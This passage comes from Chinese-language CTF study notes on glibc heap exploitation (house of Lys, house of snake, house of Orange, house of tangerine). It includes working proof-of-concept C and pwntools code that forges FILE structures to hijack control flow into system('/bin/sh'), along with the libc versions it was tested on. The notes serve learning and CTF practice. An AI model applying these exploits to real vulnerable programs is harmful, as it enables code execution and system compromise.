    *(long long*)((long long)ptr+vtable_offset)=(long long*)(_IO_obstack_jumps_prt+0x20);
    *(long long*)((long long)ptr+caller_offset)=(long long*)(&system); //Here controls rip
    *(long long*)((long long)ptr+caller_arg_offset)=(long long*)(libc_base+1767045); //Here controls rdi, set it to the address of /bin/sh in libc
    printf("fake ptr: %p\n", ptr);
}
```
```py
ptr = int(rcu('ptr: ','\n'),16)
libc.address = int(rcu('leak: ','\n'),16)-libc.sym['_IO_2_1_stdout_']
write(libc.sym['_IO_2_1_stderr_']+104,p64(ptr))
sla('choice> ', '2')
p.interactive()
```
测试时所使用的libc版本：2.34

在libc 2.37中，移除了house of Lys里所使用的`_IO_obstack_jumps` vtable。于是便有了变种：[house_of_snake](https://www.cnblogs.com/7resp4ss/p/17300224.html)

利用前提：
- 已知程序libc基地址
- 可完全控制一个堆块并知晓其地址；能操控程序往`_IO_list_all`写入该堆块的地址

将house of apple2的脚本中由`------------change------------`包裹的代码更换为以下内容，即为house of snake的poc：
```c
void fake()
{
    void *ptr;
    ptr=malloc(0x200);
    printf("ptr: %p\n", ptr);
}
```
```py
#https://github.com/RoderickChan/pwncli/blob/main/pwncli/utils/io_file.py#L379
def payload_replace(payload: str or bytes, rpdict:dict=None, filler="\x00"):
    assert isinstance(payload, (str, bytes, int)), "wrong payload!"
    assert context.bits in (32, 64), "wrong context.bits!"
    assert len(filler) == 1, "wrong filler!"
    output = list(payload) if isinstance(payload, bytes) else list(payload.encode('latin-1'))
    if isinstance(filler, str):
        filler = filler.encode('latin-1')
    for off, data in rpdict.items():
        assert isinstance(off, int), "wrong off in rpdict!"
        assert isinstance(data, (int, bytes, str)), "wrong data: {}!".format(data)
        if isinstance(data, str):
            data = data.encode('latin-1')
        elif isinstance(data, int):
            data = pack(data, word_size=context.bits, endianness=context.endian)
        distance = len(output) - len(data)
        if off > distance:
            output.extend([int.from_bytes(filler, "little")]*(off - distance))
        for i, d in enumerate(data):
            output[off+i] = d
    return bytes(output)
ptr = int(rcu('ptr: ','\n'),16)
libc.address = int(rcu('leak: ','\n'),16)-libc.sym['_IO_2_1_stdout_']
fp = FileStructure(0)
fake_printf_buffer = ptr+0x58
fp.vtable = 0x1c8d60  + libc.address #&_IO_printf_buffer_as_file_jumps
fp._IO_write_ptr = fake_printf_buffer+ 0x30 + 1
fp._IO_write_end = fake_printf_buffer + 0x30 + 1
fp._IO_write_base = 0x0
fp._IO_backup_base = 0xff
fp._IO_buf_base = libc.sym['system']
fp._IO_save_base = ptr + 0xa0
fp._wide_data = 0x68732f6e69622f
fp = payload_replace(bytes(fp),{
    0x58:0,
    0x60:0,
    0x68:fake_printf_buffer + 0x30 + 1,
    0x70:0,
    0x78:11,
    0x80:ptr
})
pd = flat(
    {
      0x0:bytes(fp),
      0xe0:fake_printf_buffer,
    }
)
write(ptr,pd)
write(libc.sym["_IO_list_all"],p64(ptr))
sla('choice> ', '2')
p.interactive()
```
测试时所使用的libc版本：2.37

## [House of Orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c)

我以为这个2.23的攻击手段早就死了，不会再见到了。结果今天看realworld ctf [wp](https://xz.aliyun.com/t/13473)时又诈尸了。看了how2heap后才发现，这个攻击方法原来有两个阶段。第一个阶段可以在程序本身无法触发free的情况下，通过一系列堆布局，最终使glibc堆管理器将某块堆内存释放，前提是有堆溢出漏洞。这个阶段在2.26及以后就不能用了。第二个阶段和FSOP有点关系，2.24就不能用了。只学第一个阶段

最开始时整个heap都是top chunk的一部分，之后每次分配都会从top chunk拿，于是top chunk会越来越小。当top chunk大小小于分配所需的大小时，要么extend top chunk，要么mmap一个新page。只要请求大小小于0x21000，做法都是前者。实际操作：
```c
p1 = malloc(0x400-16);
top = (size_t *) ( (char *) p1 + 0x400 - 16);
//这个修改的size大小是有讲究的，top chunk+size必须保证页对齐（page aligned），且prev_inuse位为1。0xc01正好可以满足这两个条件
top[1] = 0xc01;
//被修改过size后的top chunk不够大，于是extend top chunk，得到了一个新的top chunk，旧的就被free掉了
p2 = malloc(0x1000);
```

## [house of tangerine](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_tangerine.c)

堆溢出+无free实现tcache poisoning。其实就是连着用上面的House of Orange，但要控制好申请的堆块的大小，使得覆盖的top chunk的size属于tcache。然后丝滑连接tcache poisoning拿任意地址分配。这样看来程序最好有edit功能且edit时有堆溢出

例题[flaminglips](https://github.com/Dvorhack/ctf-WU/tree/main/udctf.2024/pwn/flaminglips)